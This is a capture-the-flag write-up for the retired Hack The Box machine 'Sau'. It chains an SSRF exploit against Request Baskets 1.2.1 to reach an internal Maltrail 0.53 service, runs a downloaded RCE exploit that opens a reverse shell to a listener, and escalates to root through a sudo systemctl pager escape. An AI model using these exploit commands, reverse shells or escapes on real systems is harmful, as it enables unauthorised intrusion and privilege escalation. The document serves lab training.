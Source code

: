 # sau
> HTB retired machine | Linux (easy)

First, we perform an nmap scan to detect various services.

```plaintext
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

Nmap detects four services, including two web servers on ports 55555 and 80. Unfortunately, port 80 is filtered and inaccessible. I connect to the server on port 55555.

![request basket home page](./.assets/rq-home.png)

This server is running Request Basket version 1.2.1, which is vulnerable to Server-Side Request Forgery (SSRF). I exploit this vulnerability using the following script:

```shell
$ wget https://raw.githubusercontent.com/mathias-mrsn/request-baskets-v121-ssrf/master/exploit.py
$ python3 exploit.py http://10.10.11.224:55555 http://127.0.0.1:80
Exploit for SSRF vulnerability on Request-Baskets (1.2.1) (CVE-2023-27163).
Exploit successfully executed.
Any request sent to http://10.10.11.224:55555/usqudt will now be forwarded to the service on http://127.0.0.1:80.
```

This exploit leverages the SSRF vulnerability, allowing access to internal and private services by sending a request to the '/api/basket/{name}' API.

Now that requests are redirected, we can send requests to the service on port 80 by targeting the basket created with the script.

Visit `http://10.10.11.224:55555/usqudt`.

![maltrail home page](./.assets/maltrail-home.png)

The service is Maltrail version 0.53. Fortunately, this version is vulnerable to Remote Code Execution (RCE). This vulnerability arises during login, where the username field is executed in a shell, allowing code execution on the server. In this case, we use it to establish a reverse shell.

```plaintext
$ nc -lvp 9000
```
```shell
$ wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/main/exploit.py
$ python3 maltrait_ex.py 10.10.14.50 9000 http://10.10.11.224:55555/usqudt
Running exploit on http://10.10.11.224:55555/usqudt/login
```

Now, I have a shell in the nc window.

```plaintext
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
puma@sau:/opt/maltrail$ whoami
puma
puma@sau:/opt/maltrail$ cat ~/user.txt
********************************
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

When I execute this command as sudo, the prompt appears as if it is using the `less` command. I attempt to run a command in the `!whoami` format.

```plaintext
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!ls
!llss!ls
CHANGELOG     core    maltrail-sensor.service  plugins           thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf            sensor.py
README.md     html    misc                     server.py
```

Bingo! I can print the flag.

```plaintext
!done  (press RETURN)!cat /root/root.txt

!ccaatt  //rroooott//rroooott..ttxxtt!cat /root/root.txt
********************************
```
